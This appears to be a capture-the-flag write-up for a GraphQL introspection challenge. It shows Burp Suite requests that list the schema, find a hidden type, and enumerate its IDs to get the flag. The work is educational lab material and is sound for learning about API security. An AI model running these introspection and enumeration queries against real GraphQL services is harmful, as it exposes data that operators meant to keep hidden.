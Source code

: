 # Challenge22: GraphQL - Introspection

## Reference:
    - GraphQL doc: https://graphql.org/learn/introspection/
    - StackOverflow on "Get GraphQL whole schema": https://stackoverflow.com/questions/37397886/get-graphql-whole-schema-query

# Solution:

1. Open Burp Suite and open target site.
2. This is an example query:

```json
{"query":"{ rockets(country: \"France\") { name, country, is_active } }"}
```
    
3. Based on GraphQL Introspection Doc, i tried to make this query:
```json
{"query":
	"{ __schema {   types {     name    }}}"
}
```
4. This query above will return all __Types__ including "Rocket", but there is a type that's kind of sus :():
```
IamNotHere
``` 
5. Now, we can inspect type "IamNotHere" by make this query:
```json
Request:

{"query":
	"{ __type(name: \"IAmNotHere\") { name   fields { name type { name kind     }   } }}"
}

Response:

{"data":{"__type":{"name":"IAmNotHere","fields":[{"name":"very_long_id","type":{"name":"Int","kind":"SCALAR"}},{"name":"very_long_value","type":{"name":"String","kind":"SCALAR"}}]}}}
```

6. Now try to query __very_long_value__ with __very_long_id__:

```json
{"query":"{ IAmNotHere(very_long_id: 1) { very_long_value } }"}
``` 

7. You can increase __very_long_id__ to get flag:

```json
{"data":{"IAmNotHere":[{"very_long_value":"Congratulations, you can use this flag: ... }}} 
```

